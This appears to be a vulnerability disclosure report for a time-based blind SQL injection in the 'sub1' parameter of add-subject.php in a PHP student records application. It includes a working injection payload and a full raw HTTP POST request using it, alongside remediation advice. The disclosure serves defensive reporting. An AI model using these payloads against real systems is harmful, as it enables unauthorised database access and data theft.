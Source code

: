 # Students Record Management Project in PHP V 3.20/add-subject.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Students Record Management Project in PHP
## Vendor Homepage

- https://phpgurukul.com/student-record-system-php/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Doracat

## Vulnerable File

- /add-subject.php

## VERSION(S)

- V3.20

## Software Link

- https://github.com/Doramer/doramer.github.io/raw/refs/heads/main/Student-Record-Management-System-PHP.zip

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was discovered in the '/add subject. php' file of the 'Students Record Management Project in PHP' project. The reason for this issue is that attackers inject malicious code from the parameter 'sub1' and use it directly in SQL queries without the need for proper cleaning or validation. This allows attackers to forge input values, manipulate SQL queries, and insert and perform unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of the 'Students Record Management Project in PHP', I discovered a critical SQL injection vulnerability in the '/add subject. php' file. This vulnerability arises from insufficient user input validation of the 'sub1' parameter, allowing attackers to inject malicious SQL queries and insert data. Therefore, attackers can access databases, modify or delete data, and access sensitive information without authorization. Immediate remedial measures need to be taken to ensure system security and protect data integrity

# To exploit this vulnerability, login or authorization is required

# Vulnerability details and POC

## Vulnerability lonameion:

- 'sub1' parameter

## Payload:

```makefile
 Parameter: sub1 (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sub1=1' and if(substr(database(),1,1)='s', sleep(3), 0) or '2 &sub2=&sub3=&submit=Create+Course
```

## The following are screenshots of some specific information obtained through testing:

```bash
POST /add-subject.php HTTP/1.1
Host: tourism.com
Content-Length: 95
Cache-Control: max-age=0
Origin: http://tourism.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://tourism.com/add-course.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=ufpll4qvr523ln7902u2gm7q38;
Connection: close

sub1=1' and if(substr(database(),1,1)='s', sleep(10), 0) or '2 &sub2=&sub3=&submit=Create+Course
```

![image-20250520151410048](images/image-20250520151410048.png)

![image-20250520151457562](images/image-20250520151457562.png)

# Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.

3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.